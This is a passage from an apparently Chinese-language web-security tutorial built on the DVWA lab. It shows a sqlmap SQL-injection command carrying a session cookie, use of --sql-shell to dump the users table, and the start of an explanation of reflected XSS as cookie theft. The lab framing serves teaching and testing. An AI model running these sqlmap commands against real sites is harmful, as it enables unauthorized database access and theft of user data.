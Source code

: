 #### 5.2、POST方法注入 + 数据获取

需要带cookie才能进行访问注入的页面， —cookie=“”

```mysql
root@kall:~# sqlmap -u "http://192.168.106.134/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="换成自己的" --batch
#多个 cookie 用 ; 分开
#cookie 的内容 – > PHPSESSID = ID（注意，要用 =，而不是 ：）
```

![12](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903232229.png)

![13](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903232243.png)

> **演示步骤（和GET差不多）：**

![14](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903232352.png)

#### 5.3、提权操作

> ==提权操作：--sql-shell==

![15](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903232453.png)

> ==获取sql权限后（操作数据库）==

```mysql
sql-shell:select * from users;
```

![16](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903232655.png)

#### 5.4、综合实例

![17](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903232806.png)

## 5、跨站脚本攻击 XSS(针对客户端的)

### 5.1、XSS简介

![7-1](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210907211215.png)

### 5.2、原理解剖

> ==反射型==

可以理解为钓鱼网站（比如陌生人给你发送神秘的邮箱（美女图片，神秘大礼等……）或者网站链接，一定不		要点进去，点进去cookie就没了！自然你的号就可以被别人随意登录了，除非你现在更改密码）

一般针对搜索框(具体可以用dvwa靶机里的XSS Reflected来做实验)

![7-2](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210907211512.png)

> ==存储型==
